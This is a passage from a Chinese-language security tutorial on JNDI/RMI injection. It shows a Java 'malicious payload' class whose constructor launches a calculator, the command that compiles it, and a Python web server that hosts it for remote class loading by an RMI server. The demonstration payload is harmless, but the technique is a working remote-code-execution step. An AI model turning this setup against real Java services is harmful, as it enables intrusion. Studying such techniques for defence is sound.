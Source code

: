 HTTP 端恶意载荷（Calculator.java）代码

笔者使用的是 ubuntu 的环境，执行弹出计算器的命令为 `gnome-calculator`,若为 Windwos 修改为 `calc` 即可

```plain
public class Calculator {
    public Calculator() throws Exception {
        Runtime.getRuntime().exec("gnome-calculator");
    }
}
```

#### 启动服务

1、将 HTTP 端恶意载荷 Calculator.java，编译成 Calculator.class 文件

```plain
javac Calculator.java
```

[![](assets/1711556038-dfabad1f5a3b489a6f6ed1af421237ac.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230308194457-a6920942-bda6-1.png)

2、在 Calculator.class 目录下利用 Python 起一个临时的 WEB 服务放置恶意载荷，这里的端口必须要与 RMIServer.java 的 Reference 里面的链接端口一致  
[![](assets/1711556038-71c193358994a2283dddafab1f9b3442.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230308194511-aef8cb66-bda6-1.png)

python3 -m http.server 8081  
[![](assets/1711556038-285ea78c6f12e2b72474ff789d9238c6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230308194526-b79a5906-bda6-1.png)
